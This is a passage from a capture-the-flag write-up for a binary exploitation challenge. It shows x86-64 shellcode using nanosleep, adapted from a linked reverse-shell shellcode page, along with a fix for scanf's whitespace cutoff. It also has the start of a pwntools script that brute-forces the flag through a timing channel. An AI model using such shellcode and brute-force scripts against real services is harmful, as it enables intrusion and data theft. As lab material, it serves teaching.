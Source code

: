 I found [this script](https://packetstormsecurity.com/files/142410/Linux-x86-64-Reverse-Shell-Shellcode.html) that uses nanosleep so I used that part for my assembly.

```
xor    rsi,rsi
push   rsi
push   0x3
push   rsp
pop    rdi
push   0x23
pop    rax
syscall
jmp    0x40120b
```

When testing it, it worked partially. I got `DEKRA{4ss` and after some time `!}`. Something wasn't working. 

Well, remember the program reads using scanf? Scanf cuts the input if it founds a **whitespace**

> %s. String of characters. This will read subsequent characters until a whitespace is found (whitespace characters are considered to be blank, newline and tab).

Can you spot it? It stopped working on the 10th char. That's \n, new line. So, my solution was to increment the starting address by something so we can dump more chars, for example, 5.

```
add r13, 0x5
```

All done! Let's crack it.

## Pwn all the things

Let's assume that the flag is going to be 10 bytes long. If it isn't, there is no problem because this is just a start point.

Now, printable characters. They go from **!** (32) to **~** (126) so that's what we are trying.

```python
from pwn import *
import time
import sys

for i in range(10):
    for j in range(32, 127):
        #p = process('./challenge')
        p = remote('remote_ip', remote_port)
        # gdb.attach(p.pid, '''
        # b *main+552
        # c
        # ''')
        p.clean()
```

I'm going to use the famous [defuse.ca](https://defuse.ca/online-x86-assembler.htm) to generate the bytes from the assembly
